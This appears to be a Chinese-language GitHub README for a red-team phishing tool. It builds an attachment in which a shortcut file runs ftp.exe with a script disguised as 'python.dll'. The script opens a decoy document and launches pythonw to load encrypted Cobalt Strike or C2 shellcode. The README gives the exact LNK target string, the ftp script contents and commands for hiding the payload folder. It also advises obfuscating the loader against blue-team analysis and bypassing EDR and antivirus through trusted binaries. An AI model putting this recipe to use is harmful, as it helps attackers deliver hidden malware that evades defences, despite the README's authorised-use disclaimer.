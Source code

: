 # 前言

最近看到一些博客文章对红队样本做了一些分析，估计很快此方法便失效了，决定放出来供红队成员学习研究

https://xz.aliyun.com/t/15308?time__1311=GqjxnD2Citq05DK54CqiKq7KYAKW948OObD

https://www.52pojie.cn/thread-1956543-1-1.html

其实这种方式在很早之前便出现了，之前更多的是调用powershell易被拦截

https://www.freebuf.com/articles/web/325322.html

但通过调用一些白程序(pythonw、javaw)仍可以绕过许多EDR杀软

# 常规程序弊端

- 如果使用捆绑程序释放文档和木马，容易被EDR杀软会标记为恶意，如某数字杀软常会产生 `qvm 报毒拦截`
- 红队木马被上传沙箱后，容易失效并且可能会导致大量的虚拟beacon上线，对攻击方造成影响

# 使用方式

特此感谢 [pant0m](https://github.com/pant0m)，本工具在其基础上进行二改

1、`cobaltstrike` 生成 `beacon_x64.bin`，或者使用其他C2的shellcode，默认匹配当前目录的第一个bin文件

![image](https://github.com/user-attachments/assets/fc97cb09-f20c-4f38-b639-968d0cdbfb10)

2、运行`generate.py`，自动加密`shellcode`并复制到当前`__init__`文件夹下

![image](https://github.com/user-attachments/assets/bf3081fb-60fc-4bf2-b37f-68463473d453)

3、设置属性隐藏文件夹 `__init__`

```
attrib -s -h -r __init__
attrib +s +h +r __init__
```

LNK属性填写

```
C:\Windows\System32\ftp.exe -""s:__init__\python.dll
```
![image](https://github.com/user-attachments/assets/3af29388-36b9-44f8-bffb-3f11b2ef488b)

python.dll 内容为

```
!start /b __init__\11.docx
!start /b __init__\pythonw.exe __init__\main.py
bye
```

# 实现效果

![e58ad4a8c625481495a7137bee2837e](https://github.com/user-attachments/assets/f9b781b9-795f-4304-ad68-67ddac4ab393)

# 代码加解密和混淆

加载方式为了简便选择本地解密加载，但如果说为了更好的防溯源和被蓝队捕获shellcode可使用远程加载的方式，但需要注意存储桶的权限配置

解密loader因为需要携带在附件内，所以需要尽可能混淆，增加蓝队的逆向难度

https://pyob.oxyry.com/

![image](https://github.com/user-attachments/assets/3ad71315-9824-49b5-8196-e75afee1668c) 

# 坑点细节

因为文件调用是在上一级目录下，因此`加密shellcode路径`应设置为相对的 `__init__/data.dat`

```
def loadjson (file ='__init__/data.dat'):#line:14
    with open (file ,'r',encoding ='utf-8')as O0OOO00O0OO0O0OO0 :#line:16
        OOO0O0OO000OOO0O0 =json .load (O0OOO00O0OO0O0OO0 )
```

pythonw.exe需要添加libs依赖才能正常运行，把文件夹下面的文件全部拷贝

```java
C:\Users\Administrator\AppData\Local\Programs\Python\Python38\Lib
```

# 声明

仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！

使用前先按照文档步骤一步一步来，报错问题自行百度解决，类似issue不予回复，感谢理解！

